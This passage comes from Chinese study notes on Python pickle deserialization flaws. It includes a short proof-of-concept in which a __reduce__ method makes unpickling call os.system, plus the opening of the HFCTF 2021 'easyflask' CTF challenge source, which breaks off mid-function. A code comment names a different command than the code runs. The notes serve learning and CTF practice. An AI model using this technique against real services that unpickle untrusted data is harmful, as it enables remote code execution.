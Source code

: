 在python2中只有内置类才有`__reduce__`方法，即用`class A(object)`声明的类，而`python3`中已经默认都是内置类了

## **漏洞可能出现的位置**

1. 解析认证token、session的时候

2. 将对象Pickle后存储成磁盘文件

3. 将对象Pickle后在网络中传输

4. 参数传递给程序

   什么叫RCE啊

```
import pickle
import os

class Test2(object):
    def __reduce__(self):
    	#被调用函数的参数
        cmd = "ls" 
        return (os.system,(cmd,))

if __name__ == "__main__":
    test = Test2()
    #执行序列化操作
    result1 = pickle.dumps(test)
    #执行反序列化操作
    result2 = pickle.loads(result1)

# __reduce__()魔法方法的返回值:
# return(os.system,(cmd,))
# 1.满足返回一个元组，元组中有两个参数
# 2.第一个参数是被调用函数 : os.system()
# 3.第二个参数是一个元组:(cmd,),元组中被调用的参数 cmd
# 4. 因此序列化时被解析执行的代码是 os.system("/usr/bin/id")
```

![3](Pickle反序列化.assets/3.png)

这个代码执行比Java反序列化要容易很多

## [HFCTF 2021 Final]easyflask

不放完全的题解了：

```
#!/usr/bin/python3.6
import os
import pickle

from base64 import b64decode
from flask import Flask, request, render_template, session

app = Flask(__name__)
app.config["SECRET_KEY"] = "*******"

User = type('User', (object,), {
    'uname': 'test',
    'is_admin': 0,
    '__repr__': lambda o: o.uname,
})


@app.route('/', methods=('GET',))
def index_handler():
```